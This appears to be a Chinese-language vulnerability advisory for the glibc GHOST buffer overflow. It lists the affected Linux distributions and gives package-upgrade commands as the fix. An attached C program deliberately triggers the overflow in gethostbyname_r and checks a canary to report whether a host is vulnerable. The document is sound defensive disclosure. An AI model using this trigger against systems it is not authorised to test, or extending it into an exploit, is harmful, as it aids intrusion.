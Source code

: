 ```yaml
---
layout: page
title: About
permalink: /about/
---
```

Test

glibc是GNU发布的libc库，即c运行库，在glibc库中的__nss_hostname_digits_dots()函数存在一个缓冲区溢出的漏洞，这个漏洞可以经过gethostbyname*()函数被本地或者远程触发，攻击者可以利用该漏洞执行指令，控制存在漏洞的系统。发现者以“幽灵”(GHOST)命名此漏洞。

1、漏洞影响范围
此漏洞影响使用GNU libc库版本2.2-2.17的Linux操作系统，受影响的操作系统包括：

CentOS 6 & 7

Debian 7

Red Hat Enterprise Linux 6 & 7

Ubuntu 10.04 & 12.04

各Linux发行版 


2、漏洞验证方法
将附件漏洞验证代码代码保存成 ghost.c 文件并且上传到要验证的linux主机中。 使用 “gcc ghost.c –o testghost”指令编译，会生成testghost。 使用 ./testghost 执行漏洞测试程序，如果程序输出vulnerable则说明存在漏洞。 


3、漏洞修复方法
 执行GNU libc升级命令，将linux中的libc 升级到最新版本，另外在升级完libc后需要重启系统。

     1）针对 RH、Fedora、CentOS系统

 执行 yum install glibc && reboot 更新GNU  libc

     2）针对 Debian、Ubuntu系统

 执行 apt-get clean && apt-get update && apt-get upgrade 更新GNU  libc

附件：漏洞验证代码
```c  
#include <netdb.h>

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

#include <errno.h>

 #define CANARY "in_the_coal_mine"

struct {

  char buffer[1024];

  char canary[sizeof(CANARY)];

} temp = { "buffer", CANARY };

int main(void) {

  struct hostent resbuf;

  struct hostent *result;

  int herrno;

  int retval;

  /*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/

  size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;

  char name[sizeof(temp.buffer)];

  memset(name, '0', len);

  name[len] = '\0';

  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);

  if (strcmp(temp.canary, CANARY) != 0) {

    puts("vulnerable");

    exit(EXIT_SUCCESS);

  }

  if (retval == ERANGE) {

    puts("not vulnerable");

    exit(EXIT_SUCCESS);

  }

  puts("should not happen");

  exit(EXIT_FAILURE);

}
```
